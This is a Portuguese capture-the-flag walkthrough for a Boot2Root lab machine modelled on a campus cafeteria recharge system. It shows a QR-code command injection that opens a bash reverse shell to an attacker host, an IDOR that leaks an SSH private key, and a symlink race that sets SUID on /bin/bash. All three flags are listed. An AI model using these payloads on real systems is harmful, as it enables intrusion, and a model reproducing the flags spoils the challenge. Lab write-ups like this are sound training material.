

# Kill Chain — Sistema de Recarga do RU

**Atualizado em:** 12/11/2026.  
Este documento descreve a cadeia completa de exploração da máquina CTF Boot2Root (**03-ru**), cobrindo do reconhecimento inicial até o comprometimento root.

---

## 1. Visão Geral da Cadeia de Ataque



---

## 2. Tabela de Técnicas & Variedade

| Etapa | Usuário | Técnica / Vulnerabilidade | Alvo / Vetor | Flag |
| :--- | :--- | :--- | :--- | :--- |
| **1 — Acesso Inicial** | `ru_web` | **Command Injection** via QR Code | Upload da carteirinha estudantil em `/beta` | `FLAG{RU_qr_c0de_nao_e_so_pra_leitura_7f3a1c}` |
| **2 — Pivot** | `ru_web` | **Enumeração de Rede Local** | Inspeção de portas e processos internos via `ss -tulpn` | — |
| **3 — Movimento Lateral** | `operador_caixa` | **IDOR (Insecure Direct Object Reference)** | Consulta sem autorização em `127.0.0.1:9090/api/v1/operadores/3` | `FLAG{RU_1d0r_ssh_operador_6b2f9a}` |
| **4 — PrivEsc** | `root` | **Race Condition (Symlink TOCTOU)** | Janela de 15s no job root `/opt/conciliacao.py` | `FLAG{RU_t0ct0u_syml1nk_r00t_9c4e2b}` |

---

## 3. Passo a Passo Detalhado da Exploração

### Etapa 1: Acesso Inicial (Command Injection via QR Code)

1. **Reconhecimento:**
   O jogador acessa `http://<ALVO>:8000/` e visualiza a homepage padrão do RU (cardápio, avisos).
   Executa o Gobuster para descobrir endpoints ocultos deixados pela equipe de desenvolvimento:
   ```bash
   gobuster dir -u http://<ALVO>:8000/ -w /usr/share/wordlists/dirb/common.txt
   ```
   *Resultados encontrados:*
   * `/beta`: Formulário de upload experimental para recarga automática por carteirinha.
   * `/carterinha-teste.jpg`: Imagem de teste esquecida pelos desenvolvedores.

2. **Engenharia Reversa da Imagem:**
   O jogador faz o download da imagem e inspeciona o QR Code:
   ```bash
   zbarimg carterinha-teste.jpg
   ```
   *Conteúdo do QR Code:*
   ```text
   DISCENTE: CACHORRO|CPF: 000.000.000-00|MATRICULA: 00000000|NÍVEL: graduaCÃO|CURSO: CACHORRO; echo 'Leitura bem sucedida'
   ```
   Ao testar o envio desse arquivo no `/beta`, a aplicação executa o comando após o `;` e imprime `Leitura bem sucedida` na resposta.

3. **Exploitation (Reverse Shell):**
   * Abre um listener na máquina atacante:
     ```bash
     nc -lvnp 4444
     ```
   * Gera um novo QR Code malicioso com o payload de reverse shell:
     ```bash
     qrencode -o qr_revshell.png -s 8 "DISCENTE: CACHORRO|CPF: 000.000.000-00|MATRICULA: 00000000|NÍVEL: graduaCÃO|CURSO: CACHORRO; (bash -c 'bash -i >& /dev/tcp/<IP_ATACANTE>/4444 0>&1' &)"
     ```
   * Faz upload da imagem no formulário `/beta`.
   * Recebe a shell como `ru_web` e lê a **Flag 1**:
     ```bash
     cat /home/ru_web/user.txt
     ```

---

### Etapa 2: Pivot & Enumeração Interna

4. A partir da shell como `ru_web`, o jogador investiga as portas abertas no container:
   ```bash
   ss -tulpn
   ```
5. Descobre dois serviços vinculados exclusivamente a `127.0.0.1`:
   * `127.0.0.1:8081` — Painel de Gerenciamento do RU (uso interno).
   * `127.0.0.1:9090` — Admin-API (gerenciamento de operadores).
6. Nota que não é obrigatório abrir túnel SSH para explorar a API; requisições diretas via `curl` a partir da shell de `ru_web` funcionam perfeitamente.

---

### Etapa 3: Movimentação Lateral via IDOR

7. O jogador consulta a lista de operadores na API interna:
   ```bash
   curl -s http://127.0.0.1:9090/api/v1/operadores
   ```
   *Retorno:* Lista em JSON contendo os operadores com IDs `1`, `2` e `3`.
8. Enumera cada operador individualmente:
   ```bash
   curl -s http://127.0.0.1:9090/api/v1/operadores/1
   curl -s http://127.0.0.1:9090/api/v1/operadores/2
   curl -s http://127.0.0.1:9090/api/v1/operadores/3
   ```
9. **Descoberta do IDOR:** A rota `/api/v1/operadores/3` não valida permissões de acesso e retorna o campo sensível `chave_privada` contendo a chave SSH OpenSSH ed25519 do usuário `operador_caixa`.
10. O jogador extrai a chave SSH privada:
    ```bash
    curl -s http://127.0.0.1:9090/api/v1/operadores/3 \
      | python3 -c "import sys,json; print(json.load(sys.stdin)['chave_privada'])" \
      > /tmp/operador_caixa.pem
    chmod 600 /tmp/operador_caixa.pem
    ```
11. Conecta via SSH no container (porta `2222` exposta no host):
    ```bash
    ssh -p 2222 -i /tmp/operador_caixa.pem operador_caixa@<IP_ALVO>
    ```
12. Lê a **Flag 2**:
    ```bash
    cat /home/operador_caixa/user.txt
    ```

---

### Etapa 4: Escalação de Privilégios (Race Condition TOCTOU)

13. Como `operador_caixa`, o jogador inspeciona os processos em execução:
    ```bash
    ps aux | grep python
    ```
    Identifica o processo privilegiado rodando como root: `python3 -u /opt/conciliacao.py`.
14. Analisa o código de `/opt/conciliacao.py` e as permissões de `/var/ru/caixa`:
    * O diretório `/var/ru/caixa` pertence a `root:operador_caixa` com permissão de escrita para o grupo (`2770`).
    * O script lê `/var/ru/caixa/dados.csv` (editável pelo operador).
    * Executa `lstat()` em `/var/ru/caixa/conciliacao.tmp` exigindo que seja arquivo regular.
    * Entra em pausa deliberada por **15 segundos** (`time.sleep(15)`).
    * Abre o mesmo caminho com `open(RELATORIO, "w")` **sem** `O_NOFOLLOW` (seguindo symlinks) e escreve o conteúdo de `dados.csv`.
    * Executa imediatamente `/bin/bash /opt/helper_conciliacao.sh` como `root`.
15. **Exploitation:**
    * O jogador prepara o payload em `dados.csv` para criar uma cópia com SUID do bash ou ler a flag:
      ```bash
      cat << 'EOF' > /var/ru/caixa/dados.csv
      #!/bin/bash
      chmod 4755 /bin/bash
      EOF
      ```
    * Cria um loop de troca de symlink (ou executa manualmente durante a janela de 15 segundos após ver o log de início do job):
      ```bash
      DIR="/var/ru/caixa"
      ALVO="/opt/helper_conciliacao.sh"
      
      # Garante arquivo regular inicial para passar no lstat()
      rm -f "$DIR/conciliacao.tmp"
      touch "$DIR/conciliacao.tmp"
      
      # Aguarda a validação do lstat e substitui por symlink
      while true; do
          if [ -f "$DIR/conciliacao.tmp" ] && [ ! -L "$DIR/conciliacao.tmp" ]; then
              sleep 2
              rm -f "$DIR/conciliacao.tmp"
              ln -s "$ALVO" "$DIR/conciliacao.tmp"
              echo "[+] Symlink plantado! Aguardando o root executar..."
              break
          fi
          sleep 1
      done
      ```
16. Quando o job grava em `conciliacao.tmp`, o symlink é seguido e sobrescreve `/opt/helper_conciliacao.sh`. O root executa o helper e ativa o SUID no `/bin/bash`.
17. O jogador obtém acesso root e lê a **Flag 3**:
    ```bash
    /bin/bash -p
    whoami # root
    cat /root/root.txt
    ```

---

## 4. Resumo das Flags

* **Flag 1 (`ru_web`):** `FLAG{RU_qr_c0de_nao_e_so_pra_leitura_7f3a1c}`
* **Flag 2 (`operador_caixa`):** `FLAG{RU_1d0r_ssh_operador_6b2f9a}`
* **Flag 3 (`root`):** `FLAG{RU_t0ct0u_syml1nk_r00t_9c4e2b}`
